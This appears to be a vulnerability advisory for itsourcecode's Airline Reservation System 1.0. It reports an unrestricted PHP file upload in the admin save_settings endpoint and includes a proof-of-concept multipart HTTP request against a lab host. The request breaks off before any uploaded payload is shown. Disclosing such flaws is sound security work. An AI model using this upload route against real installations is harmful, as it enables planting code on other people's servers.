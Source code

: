 # Vendor

itsourcecode

# Product

Airline Reservation System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/03/Airline-Reservation-System-PHP-Project-Source-Code.zip

# Vulnerabilities

FileUpload

# Description

In the admin/admin_class.php page, the save_settings method can be used to upload files. However, it does not consider the file type, allowing attackers to upload PHP files through /admin/ajax.php?action=save_settings.
<img width="1465" alt="image" src="https://github.com/user-attachments/assets/d309235c-de42-4ae9-bce1-4d2d928027d6">

# Poc
```
POST /admin/ajax.php?action=save_settings HTTP/1.1
Host: 192.168.17.22
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------40529263481406965619837323063
Content-Length: 1932
Origin: http://192.168.17.22
Connection: close
Referer: http://192.168.17.22/admin/index.php?page=site_settings
Cookie: PHPSESSID=g4g7kvt5eo9hn2t1lhtcvlrclj
Priority: u=0

-----------------------------40529263481406965619837323063
Content-Disposition: form-data; name="name"

Online Flight Booking System
-----------------------------40529263481406965619837323063
Content-Disposition: form-data; name="email"

info@sample.comm
-----------------------------40529263481406965619837323063
Content-Disposition: form-data; name="contact"

+6948 8542 623
-----------------------------40529263481406965619837323063
Content-Disposition: form-data; name="about"
```